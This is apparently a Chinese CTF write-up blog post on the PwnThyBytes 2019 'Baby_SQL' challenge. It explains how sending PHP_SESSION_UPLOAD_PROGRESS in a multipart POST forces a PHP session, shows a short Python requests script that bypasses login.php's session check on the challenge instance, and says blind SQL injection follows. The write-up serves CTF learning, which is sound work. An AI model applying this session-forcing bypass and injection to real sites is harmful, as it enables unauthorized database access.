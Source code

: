 ```yaml
---
title: '[PwnThyBytes 2019]Baby_SQL'
author: Troy3e
avatar: 'https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/41414542.jpg'
authorAbout: steamID：888007034
authorDesc: Blizzard：TroyeSivan#51769
categories: 技术
comments: true
date: 2021-02-06 20:01:00
authorLink:
tags:
keywords:
description:
photos: https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/thumb-1920-1128093.jpg
---
```

注释里提示source.zip源码泄露。

首先在index.php看到filter函数对每一个变量都进行了转义，所以不存在注入点。

register.php

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20210206161827.png)

login.php

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20210206161854.png)

都没有过滤，但是可以看到都不能直接访问，需要传入session。

在phpsession里如果在php.ini中设置session.auto_start=On，那么PHP每次处理PHP文件的时候都会自动执行session_start()，但是session.auto_start默认为Off。与Session相关的另一个叫session.upload_progress.enabled，默认为On，在这个选项被打开的前提下我们在multipart POST的时候传入PHP_SESSION_UPLOAD_PROGRESS，PHP会执行session_start()

    import requests
    
    url = "http://87e4b96f-0493-4255-9fe6-e0c49874f234.node3.buuoj.cn/templates/login.php"

    files = {"file": "123456789"}
    a = requests.post(url=url, files=files, data={"PHP_SESSION_UPLOAD_PROGRESS": "123456789"},
                      cookies={"PHPSESSID": "test1"}, params={'username': 'test', 'password': 'test'},
                      proxies={'http': "http://127.0.0.1:8080"})
    print(a.text)

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20210206170209.png)

伪造成功，有回显了。
接下来直接盲注就行，这样就饶过了index的过滤。
